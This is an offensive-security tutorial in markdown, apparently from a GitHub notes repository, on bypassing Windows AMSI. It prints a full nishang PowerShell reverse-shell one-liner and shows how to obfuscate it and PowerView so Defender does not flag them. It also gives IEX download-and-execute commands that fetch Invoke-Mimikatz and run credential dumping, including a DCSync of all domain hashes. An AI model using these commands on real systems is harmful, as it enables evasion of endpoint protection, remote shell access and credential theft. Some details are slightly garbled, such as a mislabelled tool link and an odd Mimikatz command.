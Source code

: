 # Powershell AMSI Bypass

## What is AMSI ?

Essentially, AMSI is an interface on which applications or services are able to scan a script’s content for malicious usage. If a signature in the script is registered by the **AMSI** antimalware service provider (Windows Defender by default), it will be blocked.

- When a **PowerShell** process is **created**, **AMSI.DLL** is loaded from disk into its address space.
- Within **AMSI.DLL**, there’s a function known as **AmsiScanBuffer(),** essentially the function used to scan a script’s content.
- In the **PowerShell** command prompt, any supplied content would first be sent to **AmsiScanBuffer()**, before any execution takes place.
- Subsequently, **AmsiScanBuffer()** would check with the registered anti-virus to determine if any signatures have been created.
- If the content is deemed **malicious**, it would be **blocked**.

---

## Obfuscation

⇒ So AMSI can be bypassed through obfuscations. You can use the following tools to create obfuscated payloads to bypass AMSI :

- [ISESteroids](http://www.powertheshell.com/)
- [Invoke-Obfuscation](https://github.com/danielbohannon/Invoke-Obfuscation)
- [AMSI.FAIL](https://amsi.fail/)

---

### 1) Obfuscating nishang with ISESteroids

⇒ So when we try running **nishang** reverse TCP it gets flagged by **AMSI** as **malicious** content : 

```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.136.137",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

![Powershell%20AMSI%20Bypass/Untitled.png](Powershell%20AMSI%20Bypass/Untitled.png)

⇒ We fire up Powershell ISE and load ISESteroids and then obfuscate the code :

![Powershell%20AMSI%20Bypass/Untitled%201.png](Powershell%20AMSI%20Bypass/Untitled%201.png)

![Powershell%20AMSI%20Bypass/Untitled%202.png](Powershell%20AMSI%20Bypass/Untitled%202.png)

- AMSI doesn't flag it as malicious content after obfuscation and we get a reverse shell :

![Powershell%20AMSI%20Bypass/Untitled%203.png](Powershell%20AMSI%20Bypass/Untitled%203.png)

![Powershell%20AMSI%20Bypass/Untitled%204.png](Powershell%20AMSI%20Bypass/Untitled%204.png)

---

### 2) Obfuscating PowerView with Invoke-Obfuscation

⇒ So AMSI flags powerview as an malicious script so we will try and bypass this by obfuscating using [Invoke-Mimikatz](https://github.com/danielbohannon/Invoke-Obfuscation)

```powershell
Import-Module ./Invoke-Obfuscation.psd1
Out-ObfuscatedTokenCommand -Path PowerView.ps1 | Out-File powerview.ps1 
```

- Running the obfuscated powerview :

![Powershell%20AMSI%20Bypass/Untitled%205.png](Powershell%20AMSI%20Bypass/Untitled%205.png)

---

### 3) Running Mimikatz by obfuscating an bypass for amsi using amsi.fail :

⇒ So we will be bypassing AMSI by forcing an error using an payload from [https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)

![Powershell%20AMSI%20Bypass/Untitled%206.png](Powershell%20AMSI%20Bypass/Untitled%206.png)

- Obfuscating it using [https://amsi.fail/](https://amsi.fail/)

⇒ Running Invoke-Mimikatz :

```powershell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command 'privilege::debug coffee'
```

![Powershell%20AMSI%20Bypass/Untitled%207.png](Powershell%20AMSI%20Bypass/Untitled%207.png)

```powershell
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/BC-SECURITY/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1"); Invoke-Mimikatz -Command '"lsadump::dcsync /all /csv"'
```

![Powershell%20AMSI%20Bypass/Untitled%208.png](Powershell%20AMSI%20Bypass/Untitled%208.png)

---